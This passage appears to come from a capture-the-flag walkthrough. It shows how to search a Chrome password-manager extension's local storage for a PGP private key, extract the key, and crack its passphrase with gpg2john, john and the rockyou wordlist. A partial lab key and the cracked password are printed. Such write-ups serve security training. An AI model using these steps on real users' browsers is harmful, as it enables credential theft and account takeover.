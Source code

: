     
    
    eddie@bolt:~/.config/google-chrome/Default$ grep -r PRIVATE Local\ Extension\ Settings/didegimhafipceonhjepacocaffmoppf/
    Binary file Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log matches
    

Running `strings` into `grep` returns a bunch of text, but I can cut out a
private key:

    
    
    -----BEGIN PGP PRIVATE KEY BLOCK-----
    Version: OpenPGP.js v4.10.9
    Comment: https://openpgpjs.org
    
    xcMGBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi
    fjfUozTU9a0OLuiHUNeEjYIVdcaAR89lVBnYuoneAghZ7eaZuiLz+5gaYczk
    cpRETcVDVVMZrLlW4zhA9OXfQY/d4/OXaAjsU9w+8ne0A5I0aygN2OPnEKhU
    RNa6PCvADh22J5vD+/RjPrmpnHcUuj+/qtJrS6PyEhY6jgxmeijYZqGkGeWU
    +XkmuFNmq6km9pCw+MJGdq0b9yEKOig6/UhGWZCQ7RKU1jzCbFOvcD98YT9a
    If70XnI0xNMS4iRVzd2D4zliQx9d6BqEqZDfZhYpWo3NbDqsyGGtbyJlABEB
    ...[snip]...
    

### Crack Key

[This page](https://miloserdov.org/?p=5426#13) has a section on cracking a GPG
key using `john`, as it isn’t in `hashcat` at this time. I’ll use `gpg2john`
to create a hash, and then feed it to `john`:

    
    
    oxdf@hacky$ gpg2john eddie.key > eddie.key.john
    
    File eddie.key
    

Now crack it with `john`:

    
    
    oxdf@hacky$ john eddie.key.john --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
    Cost 1 (s2k-count) is 16777216 for all loaded hashes
    Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 8 for all loaded hashes
    Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    merrychristmas   (Eddie Johnson)
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    

The password is merrychristmas.

### Access passbolt
